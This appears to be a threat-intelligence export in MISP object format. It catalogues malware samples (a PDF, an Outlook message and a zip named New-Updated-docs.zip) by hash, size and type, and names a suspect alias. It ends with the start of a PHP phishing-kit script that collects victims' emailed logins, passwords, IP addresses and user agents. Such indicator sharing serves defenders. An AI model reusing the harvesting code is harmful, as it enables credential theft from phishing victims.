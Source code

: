 ### file — File object describing a file with meta-information
* [Payload delivery] filename: c052025b442995f04a68b1b6b2007c36dbf47448c08dc249219a7f3eebd369c2
* [Other] size-in-bytes: 156088
* [Other] float: 7.9280918012902
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Payload delivery] sha512: <sha512>
* [Payload delivery] malware-sample: c052025b442995f04a68b1b6b2007c36dbf47448c08dc249219a7f3eebd369c2|da877f4f7335264b03ac72fca5b305dc
* [Artifacts dropped] mime-type: PDF document, version 1.7
* [Payload delivery] ssdeep: <ssdeep>

### file — File object describing a file with meta-information
* [Payload delivery] filename: f2676b94952018c220ee352b9857bc5ad62195b2d15cdfaf54fa5c5985d6934a
* [Other] size-in-bytes: 485888
* [Other] float: 7.9068746522467
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Payload delivery] sha512: <sha512>
* [Payload delivery] malware-sample: f2676b94952018c220ee352b9857bc5ad62195b2d15cdfaf54fa5c5985d6934a|b830fd2997e1f124f34d77ff1fa9b89e
* [Artifacts dropped] mime-type: CDFV2 Microsoft Outlook Message
* [Payload delivery] ssdeep: <ssdeep>

### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: New-Updated-docs.zip|b7245bf657e792328aaacbc6f75d1555
* [Payload delivery] filename: New-Updated-docs.zip
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 3525231
* [Other] text: Adobe-Standard-Encoding
* [Other] text: Malicious

### person — An object which describes a person or an identity.
* [Other] text: Suspect
* [Other] text: JATBOSS
* [Person] gender: Prefer not to say

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: <?php
if(isset($_SERVER['HTTP_X_REAL_IP'])){
$ip = $_SERVER['HTTP_X_REAL_IP'];
}else{
$ip=$_SERVER['REMOTE_ADDR'];
}
$message .= "|----------| E M A I L  |--------------|\n";
$message .= "Online: ".$_POST['email']."\n";
$message .= "pass: ".$_POST['pwd']."\n";
$message .= "|--------------- I N F O | I P -------------------|\n";
$message .= "|Client IP: ".$ip."\n";
$message .= "|--- http://www.geoiptool.com/?IP=$ip ----\n";
$message .= "User Agent : ".$useragent."\n";